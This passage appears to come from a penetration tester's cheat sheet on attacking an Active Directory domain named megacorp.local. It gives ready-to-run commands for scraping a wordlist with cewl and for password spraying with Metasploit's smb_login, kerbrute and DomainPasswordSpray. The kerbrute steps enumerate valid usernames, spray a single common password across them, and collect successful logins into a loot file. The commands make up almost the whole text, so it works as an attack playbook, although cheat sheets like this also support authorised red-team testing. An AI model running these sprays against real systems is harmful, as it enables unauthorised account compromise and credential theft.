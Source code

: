 

### cewl

```
$ cewl -d 5 -m 5 -w passwords.txt --with-numbers --email_file emails.txt http://megacorp.local/somedir/logs/html/index.htm
```




## Password Spraying



### MSF

```
msf > use auxiliary/scanner/smb/smb_login
msf > set RHOSTS <DC_IP>
msf > set SMBDomain megacorp.local
msf > set SMBUser snovvcrash
msf > set SMBPass Passw0rd!
msf > set VERBOSE False
msf > run
```



### kerbrute

* [https://github.com/ropnop/kerbrute](https://github.com/ropnop/kerbrute)

Generate a wordlist of common usernames in an appropriate format and validate it against KDC ([doesn't cause](https://github.com/ropnop/kerbrute#user-enumeration) accounts lock out):

```
$ ./kerbrute userenum -d megacorp.local -o ~/ws/log/kerbrute-userenum.log ~/ws/enum/names.txt
$ cat kerbrute-userenum.log | grep VALID | awk '{print $7}' | awk -F@ '{print $1}' > ~/ws/enum/valid-users.txt
```

Perform password spraying for discovered accounts:

```
$ ./kerbrute -v --delay 100 passwordspray -d megacorp.local -o ~/ws/log/kerbrute-passwordspray-'123456'.log ~/ws/enum/valid-users.txt '123456'
$ cat ~/ws/log/kerbrute-passwordspray-'123456'.log | grep VALID | awk '{print $7}' >> ~/ws/loot/creds.txt
```



### DomainPasswordSpray

* [https://github.com/dafthack/DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray)

```
PS > Invoke-DomainPasswordSpray -UserList .\users.txt -Domain megacorp.local -Password 'Passw0rd!' -OutFile spray-results.txt
```
